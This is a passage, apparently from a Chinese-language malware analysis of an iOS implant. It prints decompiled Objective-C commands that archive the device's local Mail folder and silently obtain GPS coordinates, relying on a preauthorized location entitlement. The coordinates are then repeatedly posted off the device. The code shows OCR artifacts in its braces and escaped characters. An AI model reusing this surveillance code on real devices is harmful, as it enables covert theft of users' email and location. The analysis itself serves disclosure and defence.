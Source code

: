 ```
  `}`
`}`

+[Util dirOfSystemMail] `{`
  return @"/private/var/mobile/Library/Mail";
`}`
```

使用[Util tarWithSplit]方法来存档/private/var/mobile/Library/Mail 文件夹中的内容，其中包含使用内置Apple Mail.app 发送和接收的所有本地存储电子邮件的内容。

这是命令locate的另一个示例，它使用CoreLocation为设备请求地理定位修复。由于植入代码的com.apple.locationd.preauthorized 权利设置为true，因此不会提示用户访问其位置的权限。

```
-[Service requestLocation] `{`
  NSLog(@"requestLocation");
  self-&gt;_locating = 1;

  if (!self-&gt;_lm) `{`
    lm = [[CLLocationManager alloc] init];
    [self-&gt;_lm release];
    self-&gt;_lm = lm;

    // the delegate's locationManager:didUpdateLocations: selector
    // will be called when location information is available
    [self-&gt;_lm setDelegate:self];
    [self-&gt;_lm setDesiredAccuracy:kCLLocationAccuracyBest];
  `}`

  [self-&gt;lm startUpdatingLocation];
`}`

-[Service locationManager:manager didUpdateLocations:locations] `{`
  [self stopUpdatingLocation];
  loc = [locations lastObject];
  if (self-&gt;_locating) `{`
    struct CLLocationCoordinate2D coord = [loc coordinate];
    dict = @`{`@"lat" : [NSNumber numberWithDouble:coord.latitude],
             @"lon" : [NSNumber numberWithDouble:coord.longitude]`}`;

    path = [@"/tmp" stringByAppendingPathComponent[NSUUID UUIDString];
    [dict writeToFile:path atomically:1];

    while(1)`{`
      fdict = @`{`@"gps.plist": path`}`;
      if([self postFiles:fdict remove:1]) `{`
        break;
      `}`

      [NSThread sleepForTimeInterval:10.0];
  `}`
`}`
```
